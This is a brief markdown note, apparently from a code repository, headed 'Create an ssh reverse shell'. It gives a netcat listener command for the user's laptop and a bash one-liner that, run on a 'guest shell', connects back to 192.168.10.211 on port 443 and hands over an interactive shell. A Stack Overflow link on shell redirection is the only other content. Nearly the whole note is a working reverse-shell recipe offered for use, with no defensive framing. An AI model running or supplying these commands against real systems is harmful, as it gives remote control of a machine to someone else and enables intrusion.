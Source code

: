 # Create an ssh reverse shell 

Bash Reverse shell
https://stackoverflow.com/questions/818255/in-the-shell-what-does-21-mean

Run the following on your lapptop
`ncat -nlvp 443` 

From the guest shell enter
 `bash -i &> /dev/tcp/192.168.10.211/443 0>&1`

192.168.10.211 is the listener machine



